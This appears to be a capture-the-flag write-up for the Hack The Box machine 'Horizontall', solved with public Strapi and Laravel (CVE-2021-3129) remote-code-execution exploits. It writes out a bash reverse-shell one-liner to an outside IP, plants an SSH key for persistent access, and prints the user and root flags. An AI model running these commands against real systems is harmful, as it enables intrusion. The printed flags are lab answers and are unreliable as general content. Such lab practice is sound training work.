 # Horizontall.htb
### IP-10.10.11.105 Difficulty-Easy

Started nmap scan on the IP and found 2 open ports:

```
22 - SSH
80 - HTTP
```

Entered the IP and a hostname in the hosts file and started a gobuster scan on the IP to brute directories but got nothing useful.
Then started to brute sub-domains using gobuster itself.

```
gobuster vhost -u horizontall.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt
```

Luckily after much time got a sub-domain:

```
api-prod.horizontall.htb
```

Added this subdomain into the hosts file and started another gobuster scan on this sub-domain.
After enumerating, I found it was using strapi CMS with available exploit of RCE and downloaded the [python](exploit-db.com/exploits/50239) code and executed it.

Got a reverse shell but it was not stable so to get another reverse shell I ran:

```
bash -c 'bash -i >& /dev/tcp/10.10.14.185/5555 0>&1'
```

Got the user.txt.

```
042416f86baccb2d2b1d7e7aed96adc8
```

After that I noticed that some ports are running locally like 3306 and 8000.
Found that 8000 is running laravel php script of version 8.

Found an exploit for this.(cve2021–3129)

But for this exploit, I needed to forward the 8000 port so that I can access this port from my machine.

To do this, I used ssh port forwarding.

In my attackbox I created new ssh keys by ssh-keygen and copied the public key into the authorized_keys file in strapi user's .ssh folder.
After that changed permissions of the private ssh file to 600 and then running the command in attackbox.

```
ssh -i id_rsa -L 8000:127.0.0.1:8000 strapi@horizontall.htb
```

After this I successfully forwarded the port to my machine and I can exploit it.

Found [this](https://github.com/nth347/CVE-2021-3129_exploit) exploit for RCE and ran the command:

```
./laravel.py http://localhost:8000 Monolog/RCE1 "cat /root/root.txt"
```

And got the root.txt

```
a84dd8478f339b76062a3f9535b1d211
```
